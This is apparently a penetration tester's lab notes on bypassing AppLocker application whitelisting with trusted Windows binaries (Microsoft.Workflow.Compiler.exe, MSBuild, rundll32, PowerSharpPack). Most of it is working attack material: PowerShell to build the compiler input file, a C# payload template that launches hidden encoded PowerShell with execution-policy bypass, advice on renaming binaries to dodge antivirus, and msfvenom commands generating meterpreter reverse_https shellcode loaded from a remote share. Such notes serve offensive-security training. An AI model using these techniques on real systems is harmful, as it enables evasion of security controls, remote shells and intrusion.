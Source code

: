 ### Method 1: Microsoft.Workflow.Compiler.exe

    //works if FileIntegrity is not enabled - AppLocker fine, may not work for WDAC
    //Microsoft.Workflow.Compiler accepts two arguments. The first must be the path to an XML file containing compiler flags and the path to a file containing C# code. The C# file will be compiled and loaded into memory without restrictions.
    //the file containing code we provide must contain a class that inherits from the Activity class of the System.Workflow.ComponentModel namespace and must contain the code we want to execute inside its constructor
    //we can simply pass a random file name as the second command line argument
    //In summary, we must craft a file containing C# code, which implements a class that inherits from the Activity class and has a constructor. The file path must be inserted into the XML document along with compiler parameters organized in a serialized format.
    //Downside: XML and C# files on disk, plus C# temporarily compiled to disk

    //*STEP 1: create serialized XML input file w/ PS:
        //*Or just use the known format (from MicrosoftWorkflowCompilerBypass file)
        $workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
        $workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
        $SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
        Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
        $compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
        $compilerparam.GenerateInMemory = $True
        $pathvar = "payload.txt"
        $output = "C:\Tools\info.xml"
        $tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
        Move-Item $tmp $output
        
    //*Ensure current user can access the generated file:
        $Acl = Get-ACL $output;$AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule("student","FullControl","none","none","Allow");$Acl.AddAccessRule($AccessRule);Set-Acl $output $Acl
        
    //*POC code file - payload.txt (saved on disk, referenced by the serialized xml file) - put the exploit here!
        using System;
        using System.Workflow.ComponentModel;
        public class Run : Activity{
        public Run() {
        Console.WriteLine("I executed!");
        }
        }
        
    //*STEP 2: run the code!
        C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe info.xml results.xml
        //Might have to rename for AV:
            copy C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe test.exe
            test.exe info.xml results.xml

    ######info.xml:######
    <?xml version="1.0" encoding="utf-8"?>
    <CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
    <files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
    <d2p1:string>payload.txt</d2p1:string>
    </files>
    <parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
    <assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
    <embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
    <generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
    <includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
    <linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
    <tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
    <warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
    <win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    <d2p1:checkTypes>false</d2p1:checkTypes>
    <d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
    <d2p1:compilerOptions i:nil="true" />
    <d2p1:generateCCU>false</d2p1:generateCCU>
    <d2p1:languageToUse>CSharp</d2p1:languageToUse>
    <d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
    <d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
    <d2p1:mtInfo i:nil="true" />
    <d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
    </parameters>
    </CompilerInput>

    ######payload.txt Template:######
    using System;
    using System.Diagnostics;
    using System.Workflow.Activities;
    
    public class Foo : SequentialWorkflowActivity {
        public Foo() {
            Process process = new Process();
            // Configure the process using the StartInfo properties.
            process.StartInfo.FileName = "powershell.exe";
            process.StartInfo.Arguments = "-WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>";
            process.StartInfo.WindowStyle = ProcessWindowStyle.Normal;
            process.Start();
            process.WaitForExit();
        }
    }

### **Method 2: MSBuild.exe**

//can build/execute a .csproj or .xml file w/ .net

//To run:
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\192.168.49.121\visualstudio\Hollow\Hollow.csproj

**Automated payload generator:  https://github.com/Mr-Un1k0d3r/PowerLessShell
    //can use shellcode, etc. to create a .csproj file
    cd /home/kali/data/PowerLessShell
    //Convert .ps1 file:  python2 PowerLessShell.py -type powershell -source script.ps1 -output mal.csproj
    //Convert shellcode:  
        msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw > shellcode.raw
        python2 PowerLessShell.py -source shellcode.raw -output mal.csproj [-arch 64]
        C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\192.168.49.121\visualstudio\PowerLessShell\mal.csproj

### Another Method - Charlotte.py/rundll32

    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw > beacon.bin
    python charlotte.py
    rundll32 \\192.168.49.121\visualstudio\charlotte\charlotte.dll, uVQeohpkFi

### Another Method - PowerSharpPack.ps1
- https://github.com/S3cur3Th1sSh1t/PowerSharpPack
- includes Rubeus, SharpUp, etc.